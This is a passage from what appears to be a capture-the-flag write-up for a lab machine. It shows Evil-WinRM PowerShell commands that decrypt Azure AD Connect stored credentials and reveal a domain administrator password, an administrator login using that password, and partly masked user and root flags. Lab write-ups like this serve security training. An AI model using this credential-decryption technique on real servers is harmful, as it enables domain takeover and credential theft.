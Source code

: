 ```powershell
*Evil-WinRM* PS C:\Users\mhope\Documents> $key = $null
*Evil-WinRM* PS C:\Users\mhope\Documents> $km.GetActiveCredentialKey([ref]$key)
*Evil-WinRM* PS C:\Users\mhope\Documents> $key2 = $null
*Evil-WinRM* PS C:\Users\mhope\Documents> $km.GetKey(1, [ref]$key2)
*Evil-WinRM* PS C:\Users\mhope\Documents> $decrypted = $null
*Evil-WinRM* PS C:\Users\mhope\Documents> $key2.DecryptBase64ToString($crypted, [ref]$decrypted)
*Evil-WinRM* PS C:\Users\mhope\Documents> $domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
*Evil-WinRM* PS C:\Users\mhope\Documents> $username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
*Evil-WinRM* PS C:\Users\mhope\Documents> $password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}
```


```
*Evil-WinRM* PS C:\Users\mhope\Documents> Write-Host ("Domain: " + $domain.Domain)
Domain: MEGABANK.LOCAL
*Evil-WinRM* PS C:\Users\mhope\Documents> Write-Host ("Username: " + $username.Username)
Username: administrator
*Evil-WinRM* PS C:\Users\mhope\Documents> Write-Host ("Password: " + $password.Password)
Password: d0m@in4dminyeah!
```

```
evil-winrm -i 10.10.10.172 -u 'Administrator' -p 'd0m@in4dminyeah!'
Evil-WinRM shell v2.0
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir ..\Desktop
Directory: C:\Users\Administrator\Desktop
          1/3/2020   5:48 AM             32 root.txt
```

# Proof

- User : `4961976bd7dXXXXXXXXXX705e2f212f2`
- Root : `12909612d25XXXXXXXXXX7d1a804a0bc`
